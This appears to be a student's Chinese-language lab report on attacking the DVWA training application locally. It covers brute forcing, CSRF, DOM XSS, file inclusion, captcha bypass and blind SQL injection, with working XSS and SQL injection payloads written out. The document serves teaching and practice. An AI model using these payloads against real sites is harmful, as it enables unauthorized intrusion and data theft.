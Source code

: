 # Web应用漏洞攻防

## 实验目的

- 了解常见 Web 漏洞训练平台；
- 了解 常见 Web 漏洞的基本原理；
- 掌握 OWASP Top 10 及常见 Web 高危漏洞的漏洞检测、漏洞利用和漏洞修复方法；

## 实验环境

- dvma
- xampp



## 实验步骤

1.下载xampp、dvwa、burpsuite

对burpsuite进行配置，如图

![](./img/配置抓包软件.png)

然后打开brute suite，输入账号和密码,进行抓包

下图为抓包结果

![](./img/抓包.png)

导入字典，开始爆破
![](./img/破解成功.png)

### CSRF

初级难度：

初始链接为 `http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#`

对链接进行修改，将“123”修改为“abc”,结果修改成功

如图：
![](./img/修改.png)

中级难度：

无法通过直接修改url来获知结果

使用burpsuite对该界面进行抓包

![](./img/再次抓包.png)

得到refere为：http://127.0.0.1/dvwa

将其加入到链接当中，成功修改

### XSS DOM

1. 查看服务端代码
![](./img/查看.png)

2.查看页面源代码

![](./img/查看源码.png)

3.构造攻击语句

 > http://127.0.0.1/dvwa-master/vulnerabilities/xss_d/?default=English<script>alert(/xss/);</script>

4.运行结果
![](./img/xss结果1.png)



### 文件包含漏洞
初级难度：在xampp文件中创建helloworld.txt，在txt中写入代码：
<?php echo "hello world!";?>

在浏览器地址栏中输入http://127.0.0.1/dvwa/vulnerabilities/fi/?page=C:\xampp\helloworld.txt，发现成功显示hello world

使用相对路径的话，同样可以显示

### 不安全的验证码

对密码进行修改的同时用brupsuite抓包，修改step参数，

![](./img/验证码抓包.png)

添加passed_captcha
![](./img/绕开验证码.png)



### 弱会话

使用burpsuite对代码进行解析
如图：
![](./img/源码.png)

medium级别是基于时间戳生成dvwaSesion的，关于时间戳转换，直接查找转换器进行转换即可
通过设置时间戳，可知诱骗受害者在某个时间点基进行点击，

### command injection

low:

操作如图所示
![](./img/command_low1.png)

![](./img/command_low2.png)

![](./img/command_low3.png)

![](./img/command_low4.png)

### SQL injection
1.判断是否存在注入，注入是字符型还是数字型,代码如下：

1' and 1=1 #        //exists
1' and 1=2 #       //missing
存在字符型注入
若1 and 1=1 #        //exists
1 and 1=2 #      //exists
这两个都是exits不符合逻辑，所以说不是数字型注入

2.猜解当前的数据库名称

想要猜解数据库名，首先要猜解数据库名的各个属性，然后挨个猜解字符。
数据库名称的属性：字符长度、字符组成的元素（字符/数字/下划线/…）和元素的位置（首位/第一位/…/末位）

1） 判断数据库的名称的长度（二分法思维）

1' and length(database())>10 #          //missing

1' and length(database())>5 #           //missing

1' and length(database())>3 #          //exists

1' and length(database())=4 #         //exists

说明数据库名称长度为4个字符

2） 判断数据库名称的字符组成元素：

1' and ascii(substr(database(),1,1))>88 #             //exists

1' and ascii(substr(database(),1,1))=100 #           //exists

第一个字符为：100--->d

1' and ascii(substr(database(),2,1)=118 
            //exists

第二个字符为：118--->v

依次为dvwa

### CSP bypass

查看源代码：

> <?php
>
> $headerCSP = "Content-Security-Policy: script-src 'self' https://pastebin.com  example.com code.jquery.com https://ssl.google-analytics.com ;"; // allows js from self, pastebin.com, jquery and google analytics.
>
> header($headerCSP);
>
> # https://pastebin.com/raw/R570EE00
>
> ?>
> <?php
> if (isset ($_POST['include'])) {
> $page[ 'body' ] .= "
>     <script src='" . $_POST['include'] . "'></script>
> ";
> }
> $page[ 'body' ] .= '
> <form name="csp" method="POST">
>     <p>You can include scripts from external sources, examine the Content Security Policy and enter a URL to include here:</p>
>     <input size="50" type="text" name="include" value="" id="include" />
>     <input type="submit" value="Include" />
> </form>





![](./img/CSP1.png)

![](./img/CSP2.png)

![](./img/CSP3.png)